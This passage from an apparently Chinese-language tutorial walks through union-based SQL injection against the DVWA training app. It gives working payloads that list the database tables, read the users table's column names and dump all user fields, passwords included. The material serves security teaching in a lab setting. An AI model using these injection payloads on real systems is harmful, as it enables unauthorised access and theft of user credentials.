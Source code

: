 ```
```

其中`TABLES`存储了数据库中所有表的元数据。

**背景知识二**

`MySQL`中有一个函数`group_concat()`，能够把查询到的多行记录合并为一个字符串返回，字符串之间默认以逗号分隔。

**Let's go!**

我们现在希望获得当前使用的`dvwa`数据库中有多少张表。输入

```
1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #
```

返回如下所示：

![]({{ site.url }}/images/sql-injection/normal8.png)

可以看到，当前数据库有两张表`guestbook`和`users`。

#### 获取表中的字段名

有了上一步中的背景知识，这一步就很好理解：

```
1' union select 1,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users' #
```

返回如下所示：

![]({{ site.url }}/images/sql-injection/normal9.png)

可以看到，字段分别为

```
user_id, first_name, last_name,
user, password, avatar,
last_login, failed_login
```

#### 下载数据

之前所作的所有准备都是为了这一阶段。结合之前的信息，构造

```
1' union select 1,group_concat(user_id, first_name, last_name, user, password, avatar, last_login, failed_login) from users #
```

返回如下所示：

![]({{ site.url }}/images/sql-injection/normal10.png)

#### 攻防升级

